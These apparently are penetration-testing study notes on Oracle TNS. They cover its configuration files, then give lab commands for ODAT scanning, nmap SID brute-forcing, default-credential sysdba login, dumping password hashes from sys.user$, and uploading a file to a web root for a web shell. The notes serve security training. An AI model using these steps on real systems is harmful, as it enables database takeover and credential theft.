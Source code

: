 #### Oracle Transparent Network Substrate
- communication protocol that facilitates communication between Oracle databases and applications over networks
- built-in encryption
- authorised hosts 
- basic authentication
Useful for:
- Name resolution
- Connection management
- Load balancing
- Security
---
#### Default Configuration

System Identifier (`SID`) is a unique name that identifies a particular database instance
Port : TCP/1521
config files:
- `tnsnames.ora`: Each database or service has a unique entry in the [tnsnames.ora](https://docs.oracle.com/cd/E11882_01/network.112/e10835/tnsnames.htm#NETRF007) file. The entry consists of :
	- name for the service
	- network location of the service
	- database or service name that clients should use when connecting to the service.
- `listener.ora`
typically located in `$ORACLE_HOME/network/admin`

Used with other Oracle services like:
- Oracle DBSNMP
- Oracle Databases, 
- Oracle Application Server, 
- Oracle Enterprise Manager, 
- Oracle Fusion Middleware, 
and many more.

---
#### Features and key points:

- ***client-side Oracle Net Services software uses the `tnsnames.ora` file to resolve service names to network addresses***

- ***the listener process uses the `listener.ora` file to determine the services it should listen to and the behavior of the listener.***

- Oracle DB protected by PL/SQL Exclusion List (`PlsqlExclusionList`). It is a user-created text file that needs to be placed in the `$ORACLE_HOME/sqldeveloper` directory.

- *contains the names of PL/SQL packages or types that should be excluded from execution*

|**Setting**|**Description**|
|---|---|
|`DESCRIPTION`|A descriptor that provides a name for the database and its connection type.|
|`ADDRESS`|The network address of the database, which includes the hostname and port number.|
|`PROTOCOL`|The network protocol used for communication with the server|
|`PORT`|The port number used for communication with the server|
|`CONNECT_DATA`|Specifies the attributes of the connection, such as the service name or SID, protocol, and database instance identifier.|
|`INSTANCE_NAME`|The name of the database instance the client wants to connect.|
|`SERVICE_NAME`|The name of the service that the client wants to connect to.|
|`SERVER`|The type of server used for the database connection, such as dedicated or shared.|
|`USER`|The username used to authenticate with the database server.|
|`PASSWORD`|The password used to authenticate with the database server.|
|`SECURITY`|The type of security for the connection.|
|`VALIDATE_CERT`|Whether to validate the certificate using SSL/TLS.|
|`SSL_VERSION`|The version of SSL/TLS to use for the connection.|
|`CONNECT_TIMEOUT`|The time limit in seconds for the client to establish a connection to the database.|
|`RECEIVE_TIMEOUT`|The time limit in seconds for the client to receive a response from the database.|
|`SEND_TIMEOUT`|The time limit in seconds for the client to send a request to the database.|
|`SQLNET.EXPIRE_TIME`|The time limit in seconds for the client to detect a connection has failed.|
|`TRACE_LEVEL`|The level of tracing for the database connection.|
|`TRACE_DIRECTORY`|The directory where the trace files are stored.|
|`TRACE_FILE_NAME`|The name of the trace file.|
|`LOG_FILE`|The file where the log information is stored.|

### Footprinting

#### Installation of Oracle Interaction tools

Script for Installation:

```bash
#!/bin/bash

sudo apt-get install libaio1 python3-dev alien -y
git clone https://github.com/quentinhardy/odat.git
cd odat/
git submodule init
git submodule update
wget https://download.oracle.com/otn_software/linux/instantclient/2112000/instantclient-basic-linux.x64-21.12.0.0.0dbru.zip
unzip instantclient-basic-linux.x64-21.12.0.0.0dbru.zip
wget https://download.oracle.com/otn_software/linux/instantclient/2112000/instantclient-sqlplus-linux.x64-21.12.0.0.0dbru.zip
unzip instantclient-sqlplus-linux.x64-21.12.0.0.0dbru.zip
export LD_LIBRARY_PATH=instantclient_21_12:$LD_LIBRARY_PATH
export PATH=$LD_LIBRARY_PATH:$PATH
pip3 install cx_Oracle
sudo apt-get install python3-scapy -y
sudo pip3 install colorlog termcolor passlib python-libnmap
sudo apt-get install build-essential libgmp-dev -y
pip3 install pycryptodome
```

#### ODAT (Oracle Database Attacking Tool)

```shell-session
./odat.py -h
```

```shell-session
./odat.py all -s 10.129.204.235
```

#### nmap

```shell-session
sudo nmap -p1521 -sV 10.129.204.235 --open
```


#### Nmap - SID Bruteforcing

```shell-session
sudo nmap -p1521 -sV 10.129.204.235 --open --script oracle-sid-brute
```


#### SQLPlus- Login

```shell-session
sqlplus scott/tiger@10.129.204.235/XE
```

If you come across the following error `sqlplus: error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory`, please execute the below, taken from [here](https://stackoverflow.com/questions/27717312/sqlplus-error-while-loading-shared-libraries-libsqlplus-so-cannot-open-shared).

```shell-session

sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig
```
only select statements work, even for viewing tables and dbs and etc

for admin try,

```shell-session
sqlplus scott/tiger@10.129.204.235/XE as sysdba
```

#### Oracle RDBMS - Extract Password Hashes

```shell-session
select name, password from sys.user$;
```

#### File Upload for Web Shell from Oracle RDBMS


```shell-session
echo "Oracle File Upload Test" > testing.txt
```

```shell-session

./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt

```
